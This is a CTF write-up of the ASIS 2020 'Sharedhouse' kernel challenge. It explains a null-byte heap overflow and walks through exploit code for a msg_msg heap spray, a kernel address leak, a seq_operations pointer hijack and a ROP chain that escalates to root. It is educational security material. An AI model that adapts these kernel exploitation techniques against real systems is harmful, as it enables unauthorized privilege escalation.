 ```yaml
---
layout: post
title: Sharedhouse - ASIS 2020 Quals
data: 2021-05-13 19:04:04
summary: Exploit for the challenge Sharedhouse from ASIS 2020 Quals.
tags:
 - kernel
 - ctf
 - asis 2020
---
```



In my previous post I used this as an example to show how to start debugging a kernel challenge.
Now let's see how to exploit this challenge. For the writeups that come after this, I will be
skipping the last part which is pretty much the same for almost all challenges.


### Analysis

As we have seen already, they have given the module inside the `rootfs.cpio`. Also we have seen
that smap and kpti are disabled. This means we can just stack pivot to userspace and execute
a rop chain. Let's open it in ida and see if we can find the bug.

Looks like it is a kernel heap challenge with 4 options:
- Add: Creates a chunk.
- Free: Frees the chunk that was created using add.
- View: Copies the data in the chunk to user.
- Edit: Copies data from user to kernel and puts it in the chunk created using add.
Bug is in this option. 

```c
if ( !note || v4 > size || copy_from_user(note, v5, v4) )
      goto LABEL_10;
*(note + v4) = 0;
```

We can see that it copies the data and then nulls the next byte. So if we give the data which is
same as length given, we get a null byte overflow. Since the kernel uses slab allocater, heap
will have pointer to next free chunk. We can use this to get leak as well as get rip.

### Kernel leak

Before going into how to leak, let's write the helper functions.

```c
void op(){
    fd = open("/dev/note",O_RDWR);
    if(fd<0){
        perror("Open");
    }
}


void add(ulong size){
    req q;
    q.size = size;
    int ret = ioctl(fd,ADD,&q);
    if(ret<0){
        perror("Add");
    }
}

void rm(){
    req q;
    int ret = ioctl(fd,RM,&q);
    if(ret<0){
        perror("rm");
    }
}

void edit(ulong size, char * buf){
    req q;
    q.size = size;
    q.buf = buf;
    int ret = ioctl(fd,EDIT,&q);
    if(ret<0){
        perror("Edit");
    }
}

void view(ulong size, char * buf){
    req q;
    q.size = size;
    q.buf = buf;
    int ret = ioctl(fd, VIEW, &q);
    if(ret<0){
        perror("View");
    }
}

```

Now to leak, we will be using the `msg_msg` strcut. You can find many other useful structs [here](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628).
We need to setup some things before we can start allocating the msg_msg struct.


```c
struct {
    long mtype;
    char mtext[0x80];
} msgbuf;


if ((qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) {
    perror("msgget");
    return -1;
}
msgbuf.mtype = 1 ;
memset(msgbuf.mtext, 'A', sizeof(msgbuf.mtext));

```

After this, we spray the heap to remove the chunks that might be in the middle of some other things.
Heap will not be contiguous. So we have to make it contiguous using the spray.

```c
for(int i = 0; i < 0xf; i++) {
    if (msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 48, 0) == -1) {
        perror("msgsnd");
        return -1;
    }
}

```
Note that here our msg_msg struct size will be 0x80. Depending on the size of the struct, our spray 
number will change. Our next allocated chunk will be this:

```sh
0xffff88800e777080:	0x0000000000000000	0x0000000000000000
0xffff88800e777090:	0x0000000000000000	0x0000000000000000
0xffff88800e7770a0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770b0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770c0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770d0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770e0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770f0:	0x0000000000000000	0x0000000000000000
0xffff88800e777100:	0xffff88800e777180	0x0000000000000000
0xffff88800e777110:	0x0000000000000000	0x0000000000000000
0xffff88800e777120:	0x0000000000000000	0x0000000000000000
0xffff88800e777130:	0x0000000000000000	0x0000000000000000
0xffff88800e777140:	0x0000000000000000	0x0000000000000000
0xffff88800e777150:	0x0000000000000000	0x0000000000000000
0xffff88800e777160:	0x0000000000000000	0x0000000000000000
0xffff88800e777170:	0x0000000000000000	0x0000000000000000
0xffff88800e777180:	0xffff88800e777200	0x0000000000000000

```
In this, `0xffff88800e777100` is the next free chunk. So if we overflow into that, it will make the
chunk point to itself.

```c
add(0x80);
edit(0x80, (void*)buf);
rm();

```

We are removing the chunk because when we add, if there is already a chunk, it will free causing issue later on.
After this we have to remove the chunk that we freed now since it will be in top on the freelist. For this, we use
msg_msg again.


```c
if (msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 48, 0) == -1) {
    perror("msgsnd");
    return -1;
}

```
Now the next two allocations of size 0x80 will return the same chunk. To get the leak, we can use any struct of size 0x80.
Here we will be using `subprocess_info`. You can find the struct [here](https://elixir.bootlin.com/linux/latest/source/include/linux/umh.h#L19).

```c
add(0x80);
int pd = socket ( 22 , AF_INET, 0 );
view(0x80,(void *)buf);
ulong base = buf[3]-0x60160;
printf("base @ %p",(void *)base);
rm();

```
We will be using the same bug to get rip control.

### RIP

Overwriting a pointer in any struct that can be invoked can give us rip. Since there is no smap or kpti, we can just
stack pivot and execute rop of `commit_creds(prepare_kernel_cred(0))`.

To get rip, we will be using another struct: `seq_operations`.

```c

struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

We will be overwriting all the pointers in this. To get the struct, we open `/proc/self/stat` and to invoke the pointer,
we call read on the opened file. As before, we have to spray heap till the memory is contiguous. After that we invoke the
null byte overflow.
```c
for(int i=0;i<0x89;i++){
    open("/proc/self/stat",O_RDONLY);
}
add(0x20);
edit(0x20,(void * )buf);
rm();
open("/proc/self/stat",O_RDONLY);
add(0x20);
int ufd = open("/proc/self/stat",O_RDONLY);
```

If we now edit the chunk, we get write on the last opened file. We can confirm this by overwriting pointers with junk and
the kernel will crash.

Now it's time to make the rop chain. We need to find a gadget that can be used to pivot to userspace. I found this `mov esp,0x83c389c0 ; ret`
in the kernel. We can `mmap` a memory in that range and use that. Now we need to find gadgets that can set registers properly. If you have
done rop in userspace, this is pretty much the same. To get the offset to the functions, we can use `/proc/kallsyms`. You can read [this](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/)
to understand the rest of the rop chain.
After this we edit the chunk and call on the opened file.

```c
buf[0]=mov_rsp;
buf[1]=mov_rsp;
buf[2]=mov_rsp;
buf[3]=mov_rsp;
edit(0x20,(void*)buf);
read(ufd,buf,1);*
```

You can find the full exploit [here](https://github.com/souragc/CTFs/blob/master/kernel/solved/shared_house/exp.c).
### Conclusion

I have not explained everything that was done. I have given links to blogs that I used to learn. Also this exploit was heavily inspired by
[this](https://smallkirby.hatenablog.com/entry/2021/02/13/230520).
